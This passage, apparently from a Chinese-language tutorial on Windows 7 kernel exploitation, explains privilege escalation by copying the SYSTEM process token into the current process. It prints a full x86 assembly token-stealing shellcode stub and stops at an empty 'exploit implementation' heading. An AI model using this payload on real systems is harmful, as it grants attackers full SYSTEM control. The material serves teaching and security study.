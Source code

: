 ### <a class="reference-link" name="%E6%8F%90%E6%9D%83%E7%9B%B8%E5%85%B3"></a>提权相关

单纯劫持返回值还不够，因为内核态并没有类似于用户态中的`system`这类方便的劫持函数。在内核态实现劫持，根据平台的不同，会使用的不同的劫持方式

#### <a class="reference-link" name="WIN7"></a>WIN7

在Win7阶段，内核态并没有做过多的限制，所以**可以在内核态执行用户态的程序**。那么如果劫持了返回值，那么便是可以运行由我们自己申请的地址空间上的shellcode。一般的逻辑如下：<br>
首先在Windows操作系统中，所有的东西都被视为**对象**，每一个对象都有一个**安全描述符（security descriptors）**（长得有点像`(A;;RPWPCCDCLCRCWOWDSDSW;;;DA)`这样的）其在内存中存储的形式通常为一个token。它会描述当前进程的所有者，以及其的相关权限，包括对文件的操作等等。这里最高的权限就是`NT AUTHORITY\SYSTEM`，系统权限拥有对所有文件的任意权力（相当于是root）。所以一般的提权思路就是：
1. 遍历当前所有进程
1. 找到当前进程中的系统进程（通常来说进程号4的进程就是系统进程啦）
1. 将其的安全描述符token复制到当前进程的安全描述符中，即可完成提权
能够找到的payload如下

```
pushad                               ; Save registers state

      ; Start of Token Stealing Stub
      xor eax, eax                         ; Set ZERO
      mov eax, fs:[eax + KTHREAD_OFFSET]   ; Get nt!_KPCR.PcrbData.CurrentThread
                                            ; _KTHREAD is located at FS:[0x124]

      mov eax, [eax + EPROCESS_OFFSET]     ; Get nt!_KTHREAD.ApcState.Process

      mov ecx, eax                         ; Copy current process _EPROCESS structure

      mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4

      SearchSystemPID:
          mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
          sub eax, FLINK_OFFSET
          cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId
          jne SearchSystemPID

      mov edx, [eax + TOKEN_OFFSET]        ; Get SYSTEM process nt!_EPROCESS.Token
      mov [ecx + TOKEN_OFFSET], edx        ; Replace target process nt!_EPROCESS.Token
                                            ; with SYSTEM process nt!_EPROCESS.Token
      ; End of Token Stealing Stub

      popad                                ; Restore registers state

      ; Kernel Recovery Stub
      xor eax, eax                         ; Set NTSTATUS SUCCEESS
      add esp, 12                          ; Fix the stack
      pop ebp                              ; Restore saved EBP
      ret 8                                ; Return cleanly
```



## EXP实现
